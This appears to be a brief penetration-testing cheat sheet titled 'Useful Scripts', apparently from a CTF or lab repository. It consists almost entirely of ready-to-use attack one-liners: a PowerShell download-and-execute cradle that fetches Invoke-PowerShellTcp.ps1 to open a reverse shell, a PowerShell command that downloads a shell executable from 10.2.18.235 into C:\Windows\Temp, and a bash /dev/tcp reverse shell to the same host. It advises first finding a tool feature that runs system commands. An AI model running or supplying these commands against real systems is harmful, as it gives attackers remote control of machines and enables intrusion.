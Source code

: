 # Useful Scripts

## Powershell
- Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it:  
`powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port`  

- Download the exploit file from http.server:  
`powershell -c "Invoke-WebRequest -uri 'http://10.2.18.235:8000/shell2.exe' -OutFile 'C:\Windows\Temp\shell.exe'"`  

## Reverse Shell
### Bash TCP
rShell.sh : `bash -i >& /dev/tcp/10.2.18.235/1234 0>&1`  
